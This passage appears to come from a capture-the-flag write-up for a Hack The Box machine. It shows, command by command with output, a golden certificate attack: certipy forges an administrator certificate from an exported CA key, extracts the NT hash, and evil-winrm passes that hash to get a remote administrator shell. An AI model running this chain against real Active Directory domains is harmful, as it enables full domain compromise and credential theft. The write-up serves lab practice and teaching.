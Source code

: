 ```
certipy forge -ca-pfx 'ca_exported.pfx' -upn administrator@certificate.htb -subject 'CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB'
```
```bash
──(kali㉿kali)-[~/HTB-machine/certificate/try1]
└─$ certipy forge -ca-pfx 'ca_exported.pfx' -upn administrator@certificate.htb -subject 'CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```
Authenticate with the Forged Certificate                    

```                                                                
┌──(kali㉿kali)-[~/HTB-machine/certificate/try1]
└─$ certipy auth -dc-ip 10.10.11.71 -pfx 'administrator_forged.pfx' -username 'administrator' -domain 'certificate.htb'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
                                                    
```

```
evil-winrm -i 10.10.11.71 -u administrator -H d804304519bf0143c14cbf1c024408c6
```
```
┌──(kali㉿kali)-[~/HTB-machine/certificate/try1]
└─$ evil-winrm -i 10.10.11.71 -u administrator -H d804304519bf0143c14cbf1c024408c6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
************33889c498b378a11e438cf7
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```


[Hacking Articles – Golden Certificate Attack](https://www.hackingarticles.in/domain-persistence-golden-certificate-attack/)

[The Hacker Recipes – Golden Certificate](https://www.thehacker.recipes/ad/persistence/adcs/golden-certificate)